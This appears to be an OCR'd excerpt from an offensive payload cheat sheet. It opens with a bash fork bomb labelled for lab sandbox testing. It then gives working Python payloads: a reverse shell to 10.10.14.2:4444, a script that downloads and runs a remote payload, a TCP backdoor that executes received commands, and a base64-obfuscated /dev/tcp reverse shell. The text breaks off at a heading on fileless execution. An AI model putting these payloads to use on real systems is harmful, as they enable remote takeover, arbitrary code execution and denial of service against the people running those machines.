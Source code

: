 #### 🔹 Fork Bomb (for lab sandbox testing)

```bash
:(){ :|:& };:
```

***

### II. 🧠 Python Payloads — Execution, Exploitation, and Evasion

#### 🔹 Reverse Shell

```python
import socket, os, pty
s = socket.socket()
s.connect(("10.10.14.2",4444))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

#### 🔹 File Download & Execution

```python
import urllib.request, os
url = "http://10.10.14.2/payload.sh"
path = "/tmp/run.sh"
urllib.request.urlretrieve(url, path)
os.system(f"bash {path}")
```

#### 🔹 Simple TCP Backdoor

```python
import socket,subprocess
s=socket.socket()
s.bind(("0.0.0.0",5555))
s.listen(1)
c,a=s.accept()
while True:
    data=c.recv(1024)
    if data.decode().strip()=="exit":break
    out=subprocess.getoutput(data.decode())
    c.send(out.encode())
```

#### 🔹 Reverse Shell Encoder

```python
import base64,os
cmd="bash -i >& /dev/tcp/10.10.14.2/4444 0>&1"
os.system("echo %s | base64 -d | bash"%base64.b64encode(cmd.encode()).decode())
```

#### 🔹 Fileless Execution (in-memory)
